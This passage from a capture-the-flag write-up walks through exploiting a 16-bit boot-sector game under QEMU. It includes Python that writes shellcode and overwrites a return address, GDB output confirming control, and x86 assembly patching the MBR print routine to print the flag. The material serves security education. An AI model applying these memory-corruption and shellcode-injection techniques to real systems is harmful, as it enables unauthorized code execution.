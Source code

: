 ```python
    move_scope_y(1)

def trigger_trail(retaddr_addr):
    assert(0 <= retaddr_addr <= 0xffff and retaddr_addr & 0xff == 0xfe)
    set_scope_color(retaddr_addr >> 8)
    move_scope_x(60)
    move_scope_y(0)
    press(['Return'])

activate_window()
auth()
select_blessed_base()
```

Now we can write our payload. I decided to inject a small infinite loop shellcode before the fake return address, at 0xFFFC. Before running the script you need to start QEMU and wait until the login prompt. Don't mess with the focus.

```python
RETADDR_ADDR = 0xfffe
SHELLCODE = '\xeb\xfe'
PAYLOAD_ADDR = RETADDR_ADDR - len(SHELLCODE)
PAYLOAD = SHELLCODE + struct.pack('<H', PAYLOAD_ADDR)

for i in range(len(PAYLOAD)):
    write_byte(PAYLOAD_ADDR + i, ord(PAYLOAD[i]))

trigger_trail(RETADDR_ADDR)
```

I had GDB open in another shell, and Ctrl+C'ed once the game hanged:

```
Program received signal SIGINT, Interrupt.
0x0000fffc in ?? ()
```

Aww yeah! Now we just need to write a shellcode that prints the flag. We have to set the video mode to text and then output the string. However, there's code that already does something very similar: the MBR entry point (0x7C00) sets up text mode and prints the login prompt. If we patch that code and jump to it we can make our shellcode much shorter and simpler. The only catch is that it prints a zero-terminated string and the flag isn't zero-terminated, but this will just result in some garbage being printed after it. No big deal.

The address of the string to print is loaded with a `mov si, 0x7cb9` (`be b9 7c`) instruction at 0x7C13. We just need to patch it to `mov si, 0x1664` (`be 64 16`) and jump to 0x7C00:

```assembly_x86
bits 16

mov word [0x7c14], 0x1664
jmp 0x7c00
```

Assemble with `nasm -fbin shellcode.asm` and replace it in the previous script to get the [final exploit](./scripts/exploit.py):
